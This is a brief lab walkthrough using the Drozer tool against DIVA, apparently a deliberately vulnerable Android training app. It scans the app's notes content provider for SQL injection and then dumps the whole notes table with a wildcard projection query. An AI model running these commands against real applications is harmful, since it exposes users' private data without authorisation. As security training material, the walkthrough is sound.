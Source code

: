 # Help information detail about this command #
    
```help scanner.provider.injection```
<br><br>
```help app.provider.query```
<br><br><br>
* **Running scanner.provider.injection for scanning available vulnerable content injection**

```
dz> run scanner.provider.injection -a jakhar.aseem.diva
Scanning jakhar.aseem.diva...
Not Vulnerable:
  content://jakhar.aseem.diva.provider.notesprovider
  content://jakhar.aseem.diva.provider.notesprovider/

Injection in Projection:
  content://jakhar.aseem.diva.provider.notesprovider/notes/
  content://jakhar.aseem.diva.provider.notesprovider/notes

Injection in Selection:
  content://jakhar.aseem.diva.provider.notesprovider/notes/
  content://jakhar.aseem.diva.provider.notesprovider/notes
```

* **Running app.provider.query for dump all tables field**
```
dz> run app.provider.query content://jakhar.aseem.diva.provider.notesprovider/notes/ --projection "*"
| _id | title    | note                                 |
| 5   | Exercise | Alternate days running               |
| 4   | Expense  | Spent too much on home theater       |
| 6   | Weekend  | b333333333333r                       |
| 3   | holiday  | Either Goa or Amsterdam              |
| 2   | home     | Buy toys for baby, Order dinner      |
| 1   | office   | 10 Meetings. 5 Calls. Lunch with CEO |
```
